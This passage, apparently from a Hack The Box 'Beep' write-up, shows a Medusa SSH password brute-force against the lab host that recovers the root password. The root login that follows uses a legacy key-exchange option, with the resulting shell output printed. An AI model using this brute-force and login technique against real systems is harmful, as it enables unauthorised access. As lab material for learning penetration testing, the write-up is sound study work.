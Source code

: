 Oh medusa is as well:

```shell
❯ medusa -h 10.10.10.7 -U htb/box/Beep/users.txt -P passwords.txt -M ssh 10.10.10.7
Medusa v2.2 [http://www.foofus.net] (C) JoMo-Kun / Foofus Networks <jmk@foofus.net>

ACCOUNT CHECK: [ssh] Host: 10.10.10.7 (1 of 1, 0 complete) User: root (1 of 6, 0 complete) Password: amp109 (1 of 4 complete)
ACCOUNT CHECK: [ssh] Host: 10.10.10.7 (1 of 1, 0 complete) User: root (1 of 6, 0 complete) Password: jEhdIekWmdjE (2 of 4 complete)
ACCOUNT FOUND: [ssh] Host: 10.10.10.7 User: root Password: jEhdIekWmdjE [SUCCESS]
```

Ok, that's enough... stop!

With that said you can just login to ssh with those valid credentials:

> Username: root
> Pasword: jEhdIekWmdjE

But oh no... you might get a key exchange algorithm problem:

```shell
❯ ssh root@10.10.10.7
Unable to negotiate with 10.10.10.7 port 22: no matching key exchange method found. Their offer: diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1
```

You can easily fix this, by specifying one of the algorithms that their offer and login as root:

```shell
❯ ssh -oKexAlgorithms=diffie-hellman-group-exchange-sha1 root@10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password:
Last login: Tue Jul 16 11:45:47 2019

Welcome to Elastix
----------------------------------------------------

To access your Elastix System, using a separate workstation (PC/MAC/Linux)
Open the Internet Browser using the following URL:
http://10.10.10.7

[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
[root@beep ~]# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    link/ether 00:50:56:b9:1d:bb brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.7/24 brd 10.10.10.255 scope global eth0
[root@beep ~]#
```
